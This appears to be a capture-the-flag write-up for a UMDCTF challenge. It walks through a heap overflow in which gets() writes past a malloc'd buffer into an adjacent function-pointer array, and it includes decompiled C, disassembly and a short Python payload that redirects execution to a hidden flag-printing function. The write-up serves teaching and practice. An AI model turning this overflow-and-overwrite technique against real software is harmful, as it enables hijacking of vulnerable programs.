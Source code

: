 ```c
  nptr = malloc(0x42uLL);
  v8 = malloc(0x18uLL);
  *v8 = jumpToHoth;
  v8[1] = jumpToCoruscant;
  v8[2] = jumpToEndor;
// ......
  gets(nptr);
```

From the code, we can see `v8` is an array of function pointer and `nptr` is a buffer.

All of them created by `malloc` and in heap.

![](http://image.taqini.space/img/20200419151918.png)

Function pointer array `v8` will be overwrite with our input after 80 bytes.

### Hidden function

If we call the hidden function `jumpToNaboo` , we can get flag.

```c
int jumpToNaboo(){
  return puts("Jumping to Naboo...\n UMDCTF-{ flag on server             }");
}
```

```nasm
.text:000000000040070A jumpToNaboo     proc near
.text:000000000040070A                 push    rbp
.text:000000000040070B                 mov     rbp, rsp
.text:000000000040070E                 mov     edi, offset aJumpingToNaboo
.text:0000000000400713                 call    _puts
.text:0000000000400718                 nop
.text:0000000000400719                 pop     rbp
.text:000000000040071A                 retn
```

### Solution

Overwrite the first function pointer in array with address of `puts(flag)` in `jumpToNaboo` and call it:

```python
payload = '1' + 'A'*79
payload += p32(0x40070E)
ru('SYSTEM CONSOLE> ')
sl(payload)
```

#### Why 0x40070E?

Because the beginning address of  `jumpToNaboo` is `0x40070A`, and `\x0a` is termination code for `gets()` which causes early termination of our input.

